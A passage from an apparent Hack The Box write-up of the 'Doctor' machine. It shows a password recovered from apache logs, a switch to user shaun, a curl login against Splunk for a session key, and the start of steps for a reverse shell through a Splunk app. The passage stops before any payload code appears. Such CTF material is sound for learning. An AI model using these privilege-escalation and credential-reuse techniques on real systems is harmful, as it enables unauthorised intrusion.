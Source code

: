 Now we can execute a reverse shell payload.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/doctor/1.7.gif){: .align-center}

And we have a shell.


## User Shell

Running `linpeas` shows us some interesting info in apache log files

```bash
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
/var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
```

There was a password reset for user shaun. We can try changing to user `shaun` using those creds.

```bash
web@doctor:~$ su shaun
su shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```

## Root Shell
We have splunk running on port `8089` as root. We were not able to login to splunk earlier with default creds. We can try again with shauns creds. 

We can request a session key using the creds.

```bash
kali@kali:~/Desktop/htb/doctor/doctors$ curl -k https://doctor.htb:8089/services/auth/login --data-urlencode username=shaun --data-urlencode password=Guitar123
<response>
  <sessionKey>R9IIxXf8w7qWM_MaLolt4RDDCRaNMwT4BTSSoxoiwz_N8folTQ7ORHIGurlp2Dsgf7cozKS4E32^bwFP84ctk6jNjhyEos5F_7G0nHwa</sessionKey>
  <messages>
    <msg code=""></msg>
  </messages>
</response>
```

We do get a reply back, which mean we have valid creds. 

This [blog](https://www.n00py.io/2018/10/popping-shells-on-splunk/) gives a detailed writeup on how to pop a shell on splunk by adding a python app.

1. Create  a file structure as below

    ```bash
    pentest_app/
           ./bin 
           ./default
    ```
2. Add a file to `bin` directory with a reverse payload
